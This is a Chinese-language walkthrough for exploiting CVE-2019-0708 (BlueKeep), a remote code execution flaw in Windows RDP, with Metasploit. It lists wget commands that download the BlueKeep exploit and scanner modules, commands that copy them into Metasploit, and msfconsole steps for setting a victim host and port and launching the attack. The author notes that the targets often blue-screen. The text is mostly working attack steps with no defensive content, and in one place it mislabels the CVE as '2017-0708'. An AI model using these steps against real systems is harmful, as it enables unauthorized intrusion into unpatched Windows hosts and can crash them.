

# CVE-2019-0708

https://www.cnblogs.com/feizianquan/p/11481294.html

影响范围
 
```
Windows 7
Windows Server 2008 R2
Windows Server 2008
Windows 2003
Windows XP
```
但是这次发布的应该是msf的阉割版(毕竟人家企业版要恰饭的嘛) 所以这次的范围基本也就 win7(x64)和2008 server R2 (x64) 

## 首先更新我们的kaili

```
apt-get  install metasploit-framework
```

## 下载exp攻击模块

wget 下载

```
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/lib/msf/core/exploit/rdp.rb
```
```
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb
```
```
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/rdp_scanner.rb
```
```
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb
```
## 检查下载的文件

依次执行命令创建利用文件夹

```
mkdir -p /usr/share/metasploit-framework/modules/exploit/windows/rdp/

mkdir  -p /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/

mkdir  -p /usr/share/metasploit-framework/modules/exploits/windows/rdp/

cp rdp.rb   /usr/share/metasploit-framework/modules/exploit/windows/rdp/rdp.rb

cp rdp_scanner.rb   /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/rdp_scanner.rb

cp cve_2019_0708_bluekeep.rb  /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb

cp cve_2019_0708_bluekeep_rce.rb   /usr/share/metasploit-framework/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb

```
## 重启msfconsole
```
reload_all
```


## 我们导入2017-0708攻击模块

```
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```
>  这个exp 目前只有 windwos 7  /2008r2  而且是社区阉割版容易蓝屏
```

set RHOSTS 设置IP
set RPORT 设置RDP端口号 -3389
使用set target ID设置受害机机器
如果有不清楚的可以
show target 选择ID
```

```
使用exploit开始攻击,等待建立连接
```


BUT  我只成功的一次，然后就天天蓝屏的钙，好喝。

只能说是我太菜了没成功。

放一张别人成功的照片。


